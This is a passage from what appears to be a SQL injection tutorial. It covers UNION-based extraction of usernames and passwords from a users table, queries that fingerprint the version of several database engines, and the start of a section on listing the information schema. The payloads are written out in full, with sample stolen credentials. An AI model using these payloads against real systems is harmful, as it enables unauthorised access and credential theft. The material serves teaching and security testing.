 </template>
<template v-slot:mysql>

```sql
UNION SELECT {{ col-a username }} '{{ separator ~ }}' {{ col-b password }} FROM {{ table users }}--
```

</template>
</smart-tabs>

This would retrieve the values as follows:

```text
administrator{{ separator ~ }}s3cure
wiener{{ separator ~ }}peter
carlos{{ separator ~ }}montoya
```


## Examining the database

### Generic info

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:

| Database type | Query |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |
| SQLite | `SELECT sqlite_version()` |

For example, you could use a `UNION` attack with the following input:

```sql
UNION SELECT @@version--
```

### Listing contents

Most database types (with the notable exception of Oracle) have a set of views called the **information schema** which provide information about the database.
On Oracle you can do more or less the same getting the tables by querying `all_tables` and the columns with `all_tab_columns`.
Here are some examples:

<smart-tabs variable="dbms" :tabs="{'oracle': 'Oracle', 'microsoft': 'Microsoft', 'pgsql': 'PostgreSQL', 'mysql': 'MySQL'}">
<template v-slot:oracle>
